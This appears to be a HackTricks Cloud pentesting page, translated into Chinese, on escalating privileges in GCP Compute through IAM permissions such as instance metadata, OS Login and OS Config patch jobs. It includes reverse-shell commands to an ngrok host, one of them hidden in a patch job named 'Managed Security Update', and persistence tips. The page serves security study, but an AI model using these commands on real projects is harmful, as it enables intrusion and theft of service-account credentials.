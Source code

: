 # GCP - Compute Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Compute

有关 GCP 中 Compute 和 VPC（网络）的更多信息，请查看：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
请注意，要执行所有需要修改实例元数据的权限提升攻击（如添加新用户和 SSH 密钥），**您需要对附加到实例的服务账户具有 `actAs` 权限**，即使服务账户已经附加！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

拥有该权限后，您可以**修改**一个**实例**的**元数据**信息，并更改**用户的授权密钥**，或**创建**一个具有 sudo 权限的新用户。因此，您将能够通过 SSH 进入任何 VM 实例并窃取实例正在运行的 GCP 服务账户。\
限制：

* 请注意，默认情况下，在 VM 实例中运行的 GCP 服务账户具有**非常有限的范围**
* 您需要能够**联系 SSH** 服务器以登录

有关如何利用此权限的更多信息，请查看：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

您还可以通过添加新的启动脚本并重启实例来执行此攻击：
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

此权限赋予**与之前权限相同的特权**，但仅针对特定实例，而不是整个项目。**与前一部分相同的漏洞和限制适用**。

### `compute.instances.setIamPolicy`

这种权限将允许您**授予自己具有之前权限的角色**并利用它们提升特权。

### **`compute.instances.osLogin`**

如果**实例中启用了OSLogin**，则使用此权限您可以直接运行**`gcloud compute ssh [INSTANCE]`**并连接到实例。您**在实例内没有root权限**。

{% hint style="success" %}
为了成功使用此权限登录到VM实例，您需要对附加到VM的SA拥有`iam.serviceAccounts.actAs`权限。
{% endhint %}

### **`compute.instances.osAdminLogin`**

如果**实例中启用了OSLogin**，则使用此权限您可以直接运行**`gcloud compute ssh [INSTANCE]`**并连接到实例。您将在实例内拥有**root权限**。

{% hint style="success" %}
为了成功使用此权限登录到VM实例，您需要对附加到VM的SA拥有`iam.serviceAccounts.actAs`权限。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

可以**创建一个分配了服务账户的虚拟机并窃取该服务账户的令牌**，通过访问元数据来提升特权。

此方法的利用脚本可以在[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)找到。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

如果您拥有**`osconfig.patchDeployments.create`**或**`osconfig.patchJobs.exec`**权限，您可以创建一个[**补丁作业或部署**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)。这将使您能够在环境中横向移动，并在项目内的所有计算实例上获得代码执行权限。

请注意，目前您**不需要对附加到实例的SA拥有`actAs`权限**。

如果您想手动利用此漏洞，您需要创建一个[**补丁作业**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **或** [**部署**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**。**\
要运行补丁作业： 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

要部署补丁部署：
```bash
gcloud compute os-config patch-deployments create <name> ...
```
该工具 [patchy](https://github.com/rek7/patchy) 过去可以用于利用此错误配置（但现在无法使用）。

**攻击者也可以利用此进行持久性攻击。**

### `compute.machineImages.setIamPolicy`

**授予自己额外权限** 以访问计算镜像。

### `compute.snapshots.setIamPolicy`

**授予自己额外权限** 以访问磁盘快照。

### `compute.disks.setIamPolicy`

**授予自己额外权限** 以访问磁盘。

### 绕过访问范围

通过此链接，您可以找到一些 [**尝试绕过访问范围的想法**](../)。

### GCP计算实例中的本地权限提升

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
